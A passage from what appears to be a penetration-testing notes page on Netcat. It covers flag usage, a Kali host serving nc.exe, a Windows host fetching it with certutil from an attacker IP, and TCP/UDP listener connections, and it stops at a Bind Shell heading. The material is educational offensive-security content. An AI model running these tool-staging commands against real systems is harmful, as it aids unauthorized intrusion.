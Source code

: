     * Banner grabbing
    * Port scanning
    * Transferring files
    * Bind/reverse shells

    **Linux**

    | Command             | Description                                   |
    | ------------------- | --------------------------------------------- |
    | `nc -n`             | Deactivate host name resolution.              |
    | `nc -v`             | Increase verbose.                             |
    | `nc 10.3.19.249 80` | Connect Netcat to `10.3.19.249` on port `80`. |

    **Windows**

    ```bash
    kali@kali> cd /usr/share/windows-binaries
    kali@kali> python -m SimpleHTTPServer 80
    ```

    ```powershell
    C:\> mkdir Temp
    C:\> cd Temp
    C:\Temp> certutil -urlcache -f http://10.10.20.3/nc.exe nc.exe
    C:\Temp> nc.exe -h
    ```

    ```bash
    kali@kali> nc -lnvp 1234
    ```

    ```powershell
    C:\Temp> nc.exe 10.10.20.3 1234
    ```

    From now, you are able to send messages between both machines. If you set the listener with flags `-lnvup`, the `-u` means UDP protocol.

    ```bash
    kali@kali> nc -lnvup 1234         # server
    C:\Temp> nc -nvu 10.10.20.3 1234  # client

    ```

#### Bind Shell

<figure><img src="../../.gitbook/assets/117.png" alt=""><figcaption></figcaption></figure>
